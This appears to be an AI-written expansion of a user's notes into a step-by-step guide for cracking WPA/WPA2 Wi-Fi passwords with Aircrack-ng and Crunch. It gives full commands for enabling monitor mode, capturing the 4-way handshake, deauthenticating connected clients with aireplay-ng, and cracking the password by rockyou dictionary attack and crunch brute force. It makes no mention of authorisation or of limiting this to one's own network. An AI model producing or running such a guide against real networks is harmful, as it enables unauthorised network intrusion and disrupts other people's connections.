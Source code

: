 The note you provided is a comprehensive guide on how to perform Wi-Fi hacking using Aircrack-ng and Crunch. It covers the entire process, from setting up the necessary tools to capturing the 4-way handshake and finally cracking the WPA/WPA2 password. Let's break down the key steps and provide additional context where necessary.

### Prerequisites

1. **Update the System:**
   ```bash
   sudo apt update
   ```

2. **Install Aircrack-ng:**
   ```bash
   sudo apt install aircrack-ng
   ```
   Verify the installation:
   ```bash
   aircrack-ng --help
   ```

3. **Install Crunch:**
   ```bash
   sudo apt install crunch
   ```
   Verify the installation:
   ```bash
   crunch -h
   ```

4. **Wireless Adapter:**
   Ensure you have a wireless adapter capable of performing packet injection and entering monitor mode.

### A. Start General Info

1. **Switch to Super User:**
   ```bash
   sudo su
   ```

2. **Check Network Interfaces:**
   ```bash
   iwconfig
   ```
   Ensure the network interface is in `Mode:managed`.

3. **Check Running Processes:**
   ```bash
   airmon-ng check
   ```

4. **Kill Interfering Processes:**
   ```bash
   airmon-ng check kill
   ```

### B. Change Manager Mode to Monitor Mode

1. **Start Monitor Mode:**
   ```bash
   airmon-ng start wlan0
   ```
   Replace `wlan0` with your actual network interface name if different.

### C. Gather Basic Info

1. **Scan for Networks:**
   ```bash
   airodump-ng wlan0
   ```
   Stop the process after 10-15 seconds and note down the `BSSID`, `CH (channel)`, and `ESSID`.

### D. Dump the Capture File

1. **Create Directory Structure:**
   ```
   -|New_Folder
      |- Captured_Files
      |- rockyou
   ```

2. **Capture Handshake:**
   ```bash
   sudo su
   airodump-ng wlan0 -d <bssid>
   ```
   Wait until you see `Handshake: bssid` at the top.

3. **De-authenticate Clients:**
   ```bash
   aireplay-ng --deauth 0 -a <bssid> wlan0
   ```
   Close the execution after 20 seconds.

4. **Capture Files:**
   ```bash
   airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
   ```
   Close after 20 seconds.

5. **Re-run De-auth and Capture:**
   Repeat the de-auth and capture process to ensure you have the handshake.

6. **Check Captured Files:**
   ```bash
   ls
   ```
   You should see files in `Captured_Files` folder with extensions `.csv`, `.netxml`, and `.cap`.

### E. Dictionary Attack (Method One)

1. **Download Rockyou Wordlist:**
   Download the `rockyou.txt` file from the internet and extract it into the `rockyou` folder.

2. **Use Built-in Rockyou (Optional):**
   ```bash
   gunzip -c /usr/share/wordlists/rockyou.txt.gz > ~/Desktop/New_Folder/rockyou/rockyou.txt
   ```

3. **Change Permissions:**
   ```bash
   chmod 777 ~/Desktop/New_Folder/rockyou/rockyou.txt
   ```

4. **Crack the Password:**
   ```bash
   aircrack-ng file_name.cap -w /Desktop/New_Folder/rockyou/rockyou.txt
   ```
   Wait for the process to complete.

### F. Brute Force Attack (Method Two)

1. **Number Only:**
   ```bash
   crunch 4 4 0123456789 | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
   ```

2. **Character Set:**
   ```bash
   crunch 8 8 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
   ```

3. **Complex Character Set:**
   ```bash
   crunch 12 12 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+=-[]{}|;:'",.<>?/ | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
   ```

### Post-Process

1. **Stop Monitor Mode:**
   ```bash
   airmon-ng stop wlan0
   ```